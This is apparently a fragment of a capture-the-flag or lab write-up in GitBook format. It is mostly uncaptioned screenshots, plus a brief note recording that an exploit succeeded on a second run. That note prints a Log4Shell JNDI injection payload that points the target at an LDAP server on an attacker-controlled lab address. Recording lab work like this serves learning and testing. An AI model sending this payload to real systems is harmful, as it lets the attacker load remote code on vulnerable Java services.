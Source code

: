 <figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

* run exploit again
  * successful
  * exploit: **`Send me: ${jndi:ldap://10.10.14.3:1389/a}`**

<figure><img src=".gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>
